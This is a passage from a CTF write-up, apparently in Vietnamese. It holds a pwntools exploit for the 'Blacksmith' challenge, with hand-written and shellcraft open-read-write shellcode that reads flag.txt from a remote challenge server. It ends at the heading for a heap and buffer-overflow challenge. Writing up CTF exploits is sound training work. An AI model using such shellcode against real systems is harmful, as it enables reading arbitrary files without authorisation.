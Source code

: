#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./blacksmith',checksec=False)

#p = process()
p = remote('83.136.250.158',52394)
#gdb.attach(p,gdbscript='''
#           brva 0x0000000000000dd4
#           brva 0x0000000000000de2
#           ''')

shellcode = asm('''
    push 29816
    mov r9,0x742e67616c662f2e
    push r9
    mov rdi,rsp
    xor rsi,rsi
    xor rdx,rdx
    mov al,0x02
    syscall

    mov rdi,rax
    mov rsi,rsp
    sub rsi,0x50
    mov rdx,0x50
    mov al,0
    syscall

    mov rdi,1
    mov al,1
    syscall
    ''',arch='amd64')
pwn_tools = shellcraft.open('./flag.txt')
pwn_tools += shellcraft.read(3,'rsp',100)
pwn_tools += shellcraft.write(1,'rsp',100)
print(len(shellcode))
input()
p.sendlineafter(b'> ',b'1')
p.sendlineafter(b'> ',b'2')
#p.sendlineafter(b'> ',shellcode)
p.sendlineafter(b'> ',asm(pwn_tools))





p.interactive()
```

ở trên là shellcode orw bằng tay và dùng tool luôn :>> , pwntools mãi dịu 

![image](https://hackmd.io/_uploads/SkLJlxpbJx.png)

---------



18 . Zombienator (HEAP + BOF)
--------

1 bài heap trộn với BOF 

```